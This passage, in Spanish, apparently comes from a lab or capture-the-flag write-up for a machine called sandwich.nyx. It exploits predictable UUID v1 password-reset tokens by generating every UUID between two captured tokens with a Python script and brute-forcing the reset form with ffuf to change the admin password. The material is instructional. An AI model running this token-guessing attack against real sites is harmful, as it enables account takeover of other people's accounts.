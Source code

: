 3. Ingresamos con nuestros usuarios a webmail.sandwich.nyx y obtenemos los dos enlaces para recuperar la contraseña de nuestros usuarios. Estos enlaces tienen un UUID v1 que es vulnerable a un ataque de Sandwich. Por lo tanto, con el enlace de recuperación de contraseña del usuario `admin@sandwich.nyx` solicitado entre nuestros dos usuarios, podemos intentar recuperar la contraseña de admin. 🔑

Imagen del webmail para `user1@sandwich.nyx`

![alt text](/assets/sandwich/image-3.png)

URL del token para user1 y user2: 

```
http://sandwich.nyx/resetpassword.php?token=2299c1c6-09ca-11f0-8069-080027b218c8
http://sandwich.nyx/resetpassword.php?token=229e2ffe-09ca-11f0-8069-080027b218c8
```

En esta URL hay un formulario que, mediante POST, envía el token y la propuesta de contraseña. Si el token es válido, modifica la contraseña del usuario; si el token no es válido, aparece el mensaje: `Invalid token.` 

Creamos un script en Python para generar los posibles UUID v1 entre los dos recibidos por nuestros usuarios.

Estos serían todos los posibles UUIDs V1 entre los rangos. Es importante hacer las 3 peticiones de restaurar la contraseña lo más rápido posible para tener un diccionario pequeño. Si se tarda en hacer las peticiones, el diccionario puede ocupar GB. 📚

```python
#!/usr/bin/env python3
def generar_uuids_por_lotes(start_hex, end_hex, batch_size=100_000, output_file="uuids.txt"):
    time_mid = "09ca"
    time_hi_and_version = "11f0"
    clock_seq = "8069"
    node = "080027b218c8"

    start = int(start_hex, 16)
    end = int(end_hex, 16)

    with open(output_file, "w") as f:
        for batch_start in range(start, end + 1, batch_size):
            batch_end = min(batch_start + batch_size, end + 1)
            for time_low in range(batch_start, batch_end):
                time_low_hex = f"{time_low:08x}"
                uuid_str = f"{time_low_hex}-{time_mid}-{time_hi_and_version}-{clock_seq}-{node}"
                f.write(uuid_str + "\n")
            print(f"Lote {batch_start}-{batch_end - 1} guardado.")

# Llamada a la función
generar_uuids_por_lotes("2299c1c6", "229e2ffe")
```

Creamos el diccionario y utilizamos FUZZ para intentar cambiar la contraseña del usuario `admin@sandwich.nyx` a `lenam`.

```bash
$ python3 ./uuids.py
Lote 580501958-580601957 guardado.
Lote 580601958-580701957 guardado.
Lote 580701958-580792318 guardado.
$ ls -lh uuids.txt 
-rw-rw-r-- 1 kali kali 11M mar 25 23:53 uuids.txt
$ ffuf -u "http://sandwich.nyx/resetpassword.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "token=FUZZ&new_password=lenam&confirm_password=lenam" -w uuids.txt -fs 420

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
```